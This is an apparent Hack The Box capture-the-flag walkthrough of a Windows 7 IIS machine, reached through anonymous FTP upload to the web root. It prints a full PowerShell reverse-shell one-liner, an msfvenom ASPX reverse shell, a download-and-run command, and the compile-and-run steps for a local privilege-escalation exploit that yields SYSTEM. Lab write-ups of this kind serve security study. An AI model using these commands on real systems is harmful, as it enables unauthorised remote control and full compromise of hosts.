





# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br>  <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"></a> | </a> |

## Information Gathering

### Openning Services

+ Microsoft ftpd allow anonymous
+ Microsoft IIS httpd 7.5

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.5
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 21,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.5 -p21,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 21:39 +07
Nmap scan report for 10.10.10.5
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.77 seconds
```

### Microsoft ftpd

Login to ftpd service with anonymous account, server was sharing web service's folder and allow put permission on it.

``` bash
┌──(Hades㉿10.10.14.3)-[6.4:19.0]~
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

This folder also allow put file to server.

``` bash
ftp> put hades.txt
local: hades.txt remote: hades.txt
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
17 bytes sent in 0.00 secs (436.8832 kB/s)
```

Query file `hades.txt` via web service

``` bash
┌──(Hades㉿10.10.14.3)-[5.5:19.9]~
└─$ curl 10.10.10.5/hades.txt                      
leecybersec.com
```

## Foothold

### Aspx Backdoor

Put file `backdoor.aspx` to web service's folder vi ftp service

```
ftp> put backdoor.aspx
local: backdoor.aspx remote: backdoor.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1661 bytes sent in 0.00 secs (11.0773 MB/s)
```

Run command `whoami` using the backdoor



Using `Powershell` to get reverse shell in the server.

``` powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

``` bash
┌──(Hades㉿10.10.14.3)-[5.6:28.5]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.5] 49159

PS C:\windows\system32\inetsrv> whoami
iis apppool\web
```

### Aspx Revershell

Create reverse shell with `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 EXITFUNC=thread -f aspx > rev.aspx
```

Upload file `rev.aspx` to web server using ftp service and execute this file.

```
curl 10.10.10.5/rev.aspx
```



## Privilege Escalation

### Vulnerability in Ancillary Function Driver

Server is Windows 7 and OS Version: 6.1.7600 N/A Build 7600, there are vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege in this server

```
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```



Download this exploit [40564](https://www.exploit-db.com/exploits/40564) and compile to binary execution.

```
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Upload `40564.exe` and using ftp service and execute it.

``` bash
ftp> binary
200 Type set to I.
ftp> put 40564.exe
local: 40564.exe remote: 40564.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
250562 bytes sent in 0.81 secs (302.3399 kB/s)
```

```
c:\inetpub\wwwroot>whoami
whoami
iis apppool\web

c:\inetpub\wwwroot>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Also upload with `fileupload.aspx` or `powershell`.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/40564.exe','C:\Users\Public\shell.exe')"
```

```
c:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\Public

<snip>
01/04/2021  12:10 ��           250.562 shell.exe

               1 File(s)        250.562 bytes
               8 Dir(s)  22.278.094.848 bytes free

c:\Users\Public>shell.exe
shell.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Execute `40564.exe` using smb share file

``` bash
//10.10.14.3/public/40564.exe
```
